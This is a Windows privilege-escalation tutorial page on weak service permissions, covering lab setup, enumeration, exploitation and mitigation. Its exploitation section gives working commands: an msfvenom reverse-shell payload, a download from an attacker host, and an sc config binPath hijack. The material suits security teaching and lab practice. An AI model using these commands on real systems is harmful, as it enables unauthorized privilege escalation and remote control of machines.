 # Weak Service Permissions

[Back to Main](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook?tab=readme-ov-file#vulnerabilities)

## Table of Contents

- [Weak Service Permissions](#weak-service-permissions)
  - [Table of Contents](#table-of-contents)
  - [Description](#description)
  - [Lab Setup](#lab-setup)
    - [Manual Lab Setup](#manual-lab-setup)
    - [PowerShell Script Lab Setup](#powershell-script-lab-setup)
  - [Enumeration](#enumeration)
  - [Exploitation](#exploitation)
  - [Mitigation](#mitigation)
  - [References](#references)

## Description

Weak Service Permissions" on Windows indicate insufficient or incorrect permissions within services. Exploiting this vulnerability enables attackers to gain unauthorized access or elevated privileges by manipulating a service's configuration.

## Lab Setup

### Manual Lab Setup

1) Open a PowerShell with local Administrtor Privileges and use the following command to create a new folder:

```
mkdir "C:\Program Files\CustomSrv3\"
```

2) Download the file [Service3.exe](/Lab-Setup-Binary/Service3.exe) to the 'C:\Program Files\CustomSrv3' directory.

3) Install the new Service:

```
New-Service -Name "Vulnerable Service 3" -BinaryPathName "C:\Program Files\CustomSrv3\Service3.exe" -DisplayName "Vuln Service 3" -Description "My Custom Vulnerable Service 3" -StartupType Automatic
```

4) Edit new service's permissions to be controlled by BUILTIN\Users:

```
cmd.exe /c 'sc sdset "Vulnerable Service 3" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;DCRPWP;;;BU)'
```

Outcome:

![Weak-Service-Permissions-Manual-Lab-Setup](/Pictures/Weak-Service-Permissions-Manual-Lab-Setup.png)

5) Verify the new service (services.msc):

![Weak-Service-Permissions-Verify-Service](/Pictures/Weak-Service-Permissions-Verify-Service.png)

6) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 3"
```

### PowerShell Script Lab Setup

To set up the lab with the 'Weak Service Binary Permissions' vulnerability is by using the custom PowerShell script named [WeakServicePermissions.ps1](/Lab-Setup-Scripts/WeakServicePermissions.ps1).

1) Open a PowerShelll with local Administrator privileges and run the script:

```
.\WeakServicePermissions.ps1
```

Outcome:

![Weak-Service-Permissions-Script-Lab-Setup](/Pictures/Weak-Service-Permissions-Script-Lab-Setup.png)

2) Manually start the service from the service panel, or reboot the machine due to the service is set to start automatically upon machine boot.

:information_source: If you want to unistall the new service use the following command:

```
Remove-Service -Name "Vulnerable Service 3"
```

## Enumeration

To run the SharpUp tool and perform an enumeration of the `Weak Service Permissions` vulnerability, you can execute the following command with appropriate arguments:

```
SharpUp.exe audit ModifiableServices
```

Outcome:

![Weak-Service-Permissions-Tool-Enumeration](/Pictures/Weak-Service-Permissions-Tool-Enumeration.png)

## Exploitation

1) Create with msfvenom a malicious exe file:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > nikos.exe
```

2)  Open a listener in your kali machine. 

3) Create Temp folder:

```
mkdir C:\TempFolder
```

4) Transfer malicious executablr file in Temp folder:

```
iwr -Uri http://<ip>:<port>/nikos.exe -Outfile C:\TempFolder\nikos.exe
```

5) Reconfigure the binary path on the vulnerable service:

```
sc config "Vulnerable Service 3" binPath= C:\TempFolder\nikos.exe
```

6) Verify that the path has indeed been updated:

```
sc qc "Vulnerable Service 3"
```

Outcome:

![Weak-Service-Permissions-Exploitation-1](/Pictures/Weak-Service-Permissions-Exploitation-1.png)

7) Stop the running service:

```
sc stop "Vulnerable Service 3"
```

8) Start the vulnerable service:

```
sc start "Vulnerable Service 3"
```

Outcome:

![Weak-Service-Permissions-Exploitation-2](/Pictures/Weak-Service-Permissions-Exploitation-2.png)

9) Verify the reverse shell on your Kali machine:

![Weak-Service-Permissions-Reverse-Shell](/Pictures/Weak-Service-Permissions-Reverse-Shell.png)

## Mitigation

To defend against Weak Service Permissions vulnerabilities, adjust permissions on Service initiated through this mechanism. This limits unauthorized access and strengthens security measures:

```
sc sdset "Vulnerable Service 3" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;IU)(A;;CCLCSWLOCRRC;;;SU)
```

## References

- [Introduction to Windows Services applications Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/introduction-to-windows-service-applications)
- [Hot to Create Windows Services Microsoft](https://learn.microsoft.com/en-us/dotnet/framework/windows-services/how-to-create-windows-services)
- [How to View and Modify Service Permissions in Windows by winhelponline](https://www.winhelponline.com/blog/view-edit-service-permissions-windows/?expand_article=1)
